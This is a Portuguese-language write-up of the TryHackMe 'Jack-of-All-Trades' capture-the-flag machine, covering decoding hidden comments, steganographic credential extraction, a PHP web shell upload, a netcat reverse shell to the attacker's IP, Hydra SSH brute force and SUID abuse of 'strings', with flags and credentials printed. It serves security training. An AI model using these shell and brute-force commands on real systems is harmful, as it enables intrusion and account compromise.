# TryHackMe — Jack-of-All-Trades

**Categoria:** Web / Esteganografia / Brute Force SSH / Privilege Escalation via SUID  
**Dificuldade:** Fácil

---

### 🛎️ Briefing

> Jack é um homem de muitos talentos — fabricante de brinquedos, caçador de pinguins e esquecido inveterado. Ele montou uma página pessoal para se candidatar a empregos, mas deixou várias pegadas digitais pelo caminho: senhas escondidas em comentários, credenciais embutidas em imagens e um painel de recuperação que não deveria existir. O objetivo é seguir o rastro de descuido em descuido até comprometer a máquina completamente.

---

## 🎯 Objetivo

A máquina não tem nenhum aviso explícito sobre o que procurar — a própria superfície de ataque é o desafio. O objetivo é explorar uma página web pessoal aparentemente inofensiva, decodificar múltiplas camadas de ofuscação deixadas pelo próprio Jack, extrair credenciais ocultas por esteganografia, obter acesso inicial via upload de web shell, escalar para o usuário `jack` com brute force de SSH e, por fim, abusar de um binário SUID para ler a flag de root.

---

## 🔍 Passo 1 — Reconhecimento: Nmap com Portas Invertidas

O primeiro passo foi um scan de serviços na máquina alvo:

```bash
nmap -sV -Pn -sC 10.67.164.93
```



O resultado trouxe uma surpresa imediata:

| Porta | Estado | Serviço | Versão |
|-------|--------|---------|--------|
| **22/tcp** | open | **HTTP** | Apache httpd 2.4.10 (Debian) |
| **80/tcp** | open | **SSH** | OpenSSH 6.7p1 Debian 5 |

As portas estão **propositalmente invertidas** — o servidor web está rodando na porta 22 (tipicamente SSH) e o SSH está na porta 80 (tipicamente HTTP). Um navegador padrão tentando acessar a porta 80 tentaria iniciar um handshake SSH e falharia. Para acessar o site, é necessário especificar a porta manualmente:

```
http://10.67.164.93:22/
```

O título da página (`Jack-of-all-trades!`) confirma que chegamos ao alvo certo.

---

## 🔍 Passo 2 — Código-fonte da Homepage: Dois Segredos em Comentários

Acessando o código-fonte da homepage (`view-source:http://10.67.164.93:22/`):



Dois elementos críticos se destacam:

**1. Comentário com link para painel de recuperação:**
```html
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
```

Jack deixou registrado no próprio HTML o caminho de um painel de recuperação — `/recovery.php` — acessível publicamente.

**2. Comentário com uma longa string codificada em Base64:**
```html
<!-- UmVtZW1iZXIgdG8gd2lzaCBKb2hueVNCBcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8g... -->
```

A string foi extraída para decodificação. Além disso, o código-fonte revela três imagens usadas na página:
- `assets/stego.jpg`
- `assets/jackinthebox.jpg`
- `assets/header.jpg`

O nome `stego.jpg` é uma pista direta: **esteganografia**.

---

## 🔍 Passo 3 — Decodificando o Base64 da Homepage

A string Base64 encontrada no comentário da homepage foi colada no **CyberChef** com a operação `From Base64`:



```
Remember to wish Johny Graves well with his crypto jobhunting!
His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

Jack deixou sua **própria senha** em texto claro dentro de um comentário HTML codificado em Base64, pensando que isso seria suficiente para escondê-la. A senha encontrada é: **`u?WtKSraq`**.

---

## 🔍 Passo 4 — Código-fonte do /recovery.php: Nova Camada de Codificação

Acessando `view-source:http://10.67.164.93:22/recovery.php`:



A página de recuperação exibe um formulário de login (`user` / `pass`) e contém **outro comentário codificado**, desta vez com uma string muito mais complexa — codificada em múltiplas camadas:

```html
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZD... -->
```

---

## 🔍 Passo 5 — Decodificando o Comentário do recovery.php

A string do `recovery.php` foi decodificada no CyberChef usando uma pipeline de três operações em sequência:

```
From Base32 → From Hex → ROT13
```



```
Remember that the credentials to the recovery login are hidden on the homepage!
I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

O texto decodificado confirma: as credenciais para o login em `/recovery.php` estão **escondidas na homepage**, e o link de dica aponta para uma referência sobre **steghide** — ferramenta de esteganografia. Agora temos todos os elementos: a senha `u?WtKSraq` (encontrada no Passo 3) deve ser usada como passphrase para extrair dados ocultos nas imagens.

---

## 🔍 Passo 6 — Esteganografia: Extraindo Credenciais com Steghide

Com a senha `u?WtKSraq` em mãos, as três imagens da homepage foram testadas com `steghide`:

```bash
steghide extract -sf Projects/Jack/stego.jpg
# Passphrase: u?WtKSraq

steghide extract -sf Projects/Jack/jackinthebox.jpg
# Passphrase: u?WtKSraq

steghide extract -sf Projects/Jack/header.jpg
# Passphrase: u?WtKSraq
```



Resultados:

| Imagem | Resultado | Conteúdo |
|--------|-----------|----------|
| `stego.jpg` | `creds.txt` | *"Hehe. Gotcha! You're on the right path, but wrong image!"* |
| `jackinthebox.jpg` | Erro | Could not extract any data with that passphrase |
| `header.jpg` | `cms.creds` ✅ | **Username: jackinthebox / Password: TplFxiSHjY** |

A imagem `stego.jpg` (com o nome mais óbvio) era uma armadilha. As credenciais reais estavam em `header.jpg`.

---

## 🔍 Passo 7 — Login no recovery.php e Upload de Web Shell

Com as credenciais `jackinthebox` / `TplFxiSHjY`, o login no painel `/recovery.php` foi bem-sucedido. O painel permitia o **upload de arquivos** para o servidor.

Foi feito upload de uma web shell PHP minimalista para o diretório `nnxhweOV/`:

```php
<?php echo "GET me a 'cmd' and I'll run it for you Future-Jack."; system($_GET['cmd']); ?>
```

Acessando a shell no navegador:

```
http://10.67.164.93:22/nnxhweOV/index.php
```


A página exibe a mensagem da shell. Testando com o parâmetro `cmd`:

```
http://10.67.164.93:22/nnxhweOV/index.php?cmd=whoami
```



```
GET me a 'cmd' and I'll run it for you Future-Jack. www-data www-data
```

Execução remota de código confirmada como **`www-data`**.

---

## 🔍 Passo 8 — Reverse Shell

Com RCE confirmada, foi estabelecida uma reverse shell via `nc`:

```bash
# No atacante
nc -lnvp 4444

# Via web shell
http://10.67.164.93:22/nnxhweOV/index.php?cmd=nc+192.168.157.47+4444+-e+/bin/bash
```



```
listening on [any] 4444 ...
connect to [192.168.157.47] from (UNKNOWN) [10.67.164.93] 48614
$ whoami
www-data
```

Shell interativa estabelecida como `www-data`.

---

## 🔍 Passo 9 — Lista de Senhas de Jack + Brute Force SSH

Navegando pelo sistema de arquivos via shell, foi encontrada uma lista de senhas em `/home/`:

```bash
cd /home
ls
# jack  jacks_password_list
cat /home/jacks_password_list
```



A lista continha dezenas de candidatas a senha. Ela foi copiada para a máquina local e usada com **Hydra** para brute force no SSH (lembrando que SSH está na **porta 80**):

```bash
hydra -l jack -P jacks_password_list -s 80 ssh://10.65.145.98
```



```
[80][ssh] host: 10.65.145.98   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
```

Senha de SSH encontrada: **`ITMJpGGIqg1jn?>@`**

---

## 🚩 Passo 10 — Flag de Usuário: Receita de Sopa de Pinguim

Login SSH como `jack` (porta 80):

```bash
ssh jack@10.67.164.93 -p 80
# Senha: ITMJpGGIqg1jn?>@
```

Explorando o diretório home, foi encontrada uma imagem `user.jpg` — uma receita culinária com a flag embutida como ingrediente:


```
Recipe for Penguin Soup:

Ingredients:
• One Penguin -- gutted
• Chicken Stock, two liters
• Cooked rice, 1kg
• securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}
• Seasoning
```


**Flag de usuário: `securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}`**

---

## 🔍 Passo 11 — Escalação de Privilégios: SUID no `strings`

Com acesso como `jack`, o próximo passo foi enumerar vetores de escalação:

```bash
find / -type f -perm /4000 2>/dev/null
```

Entre os binários com **SUID bit** listados, `strings` chamou a atenção:

```
/usr/bin/strings
```

`strings` com SUID permite ler o conteúdo de qualquer arquivo como se fosse root — incluindo `/root/root.txt`:

```bash
strings /root/root.txt
```

A saída revelou uma lista de tarefas do próprio Jack, com a flag como item a ser deletado:

```
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```


**Flag de root: `securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}`**

---

## 🚩 Flags

| Flag | Valor |
|------|-------|
| **User Flag** | `securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}` |
| **Root Flag** | `securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}` |

---

## 📝 Resumo da cadeia de investigação

1. **Nmap** → HTTP na porta 22, SSH na porta 80 — serviços propositalmente invertidos
2. **view-source** da homepage → comentário com `/recovery.php` + string Base64 escondida
3. **CyberChef (From Base64)** → senha de Jack: `u?WtKSraq`
4. **view-source de /recovery.php** → comentário multi-codificado (Base32 → Hex → ROT13)
5. **CyberChef (pipeline)** → dica: credenciais do recovery estão nas imagens da homepage via steganografia
6. **Steghide** com passphrase `u?WtKSraq` → `header.jpg` entrega `cms.creds` (jackinthebox / TplFxiSHjY)
7. **Login em /recovery.php** → upload de web shell PHP para `/nnxhweOV/`
8. **Web shell** (`?cmd=whoami`) → RCE confirmada como `www-data`
9. **Reverse shell** → acesso interativo como `www-data`
10. **`/home/jacks_password_list`** → lista de candidatas copiada para a máquina local
11. **Hydra** (`-s 80 ssh://`) → `jack` / `ITMJpGGIqg1jn?>@`
12. **SSH como jack** → `user.jpg` (receita de pinguim) → flag de usuário
13. **`find -perm /4000`** → `/usr/bin/strings` com SUID
14. **`strings /root/root.txt`** → flag de root na lista de afazeres do próprio Jack
